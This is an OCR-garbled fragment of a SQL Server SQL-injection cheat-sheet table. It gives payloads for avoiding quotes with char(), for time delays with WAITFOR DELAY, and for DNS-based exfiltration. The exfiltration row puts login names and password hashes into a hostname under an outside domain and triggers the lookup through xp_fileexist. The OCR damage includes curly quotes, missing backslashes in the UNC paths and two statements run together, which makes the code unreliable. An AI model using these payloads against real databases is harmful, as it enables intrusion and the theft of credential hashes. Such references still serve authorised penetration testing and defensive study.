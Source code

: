 | Avoiding Quotes              | SELECT char(65)+char(66) — returns AB                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| Time Delay                   | WAITFOR DELAY ‘0:0:5’ — pause for 5 seconds                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Make DNS Requests            | declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-‘ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.  <br>— Also check out theDNS tunnel feature of [sqlninja](http://sqlninja.sourceforge.net/sqlninja-howto.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |